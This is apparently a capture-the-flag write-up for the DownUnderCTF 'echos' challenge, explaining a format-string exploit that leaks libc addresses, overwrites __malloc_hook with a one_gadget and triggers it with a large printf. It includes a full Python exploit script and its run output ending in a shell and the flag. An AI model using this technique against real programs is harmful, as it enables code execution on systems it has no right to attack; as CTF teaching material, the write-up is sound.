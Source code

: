 
Since the `var_54h` is the loop counter you can it is being compared to the value `2` and being incremented eveytime after the `printf` is being called, so we have to craft the payload carefully.


* 1: 1st counter we will leak the `libc_start_main + 231` off the stack.
* 2: With LIBC address in hand. we overwrite the `__malloc_hook` in LIBC since it resides in `r/w` region of the LIBC we can overwrite.
* 3: Call `__malloc_hook` by giving `%66000c` this happens because `printf` calls `malloc` when there's a large number of charcaters to print, it has to allocate memory, eventually calling `__malloc_hook`.

Here's the exploit:-

```py
from roppy import *


elf = ELF("echos")
libc = ELF("libc6_2.27-3ubuntu1_amd64.so")
p = remote('chal.duc.tf', 30001)


def send(payload):
	p.sendline(payload)


send("%18$p-%19$p")
leaks = p.recvline().split(b"-")
leak = int(leaks[0], 16)
log.info("LEAK:   0x%x" %(leak))

elf.address = leak - 0x890
log.info("ELF:    0x%x" %(elf.address))
leak = int(leaks[1], 16)
log.info("LEAK:  0x%x" %(leak))

libc.address = leak - libc.function("__libc_start_main") - 231
log.info("LIBC:  0x%x" %(libc.address))
one_gadget = libc.address + 0x4f322
malloc_hook = libc.symbol("__malloc_hook")

payload = fmtstr64(8, {malloc_hook: one_gadget})
send(payload)
send("%66000c")
p.interactive()
```
Running the exploit:-
```r
0 [01:27:53] vagrant@oracle(oracle) DUCTF> python3 echos.py 
[*] Analyzing /home/vagrant/CTFs/DUCTF/echos
[*] Analyzing /home/vagrant/CTFs/DUCTF/libc6_2.27-3ubuntu1_amd64.so
[+] Opening connection to chal.duc.tf on port 30001: Done
[*] LEAK:   0x55c50eb9a890
[*] ELF:    0x55c50eb9a000
[*] LEAK:  0x7f17a35d8b97
[*] LIBC:  0x7f17a35b7000
[!] Can't avoid null byte at address 0x7f17a39a2c30
[!] Can't avoid null byte at address 0x7f17a39a2c32
[!] Payload contains NULL bytes.
[*] Switching to interactive mode

-- snip --

$ cat flag.txt
DUCTF{D@N6340U$_AF_F0RMAT_STTR1NG$}
```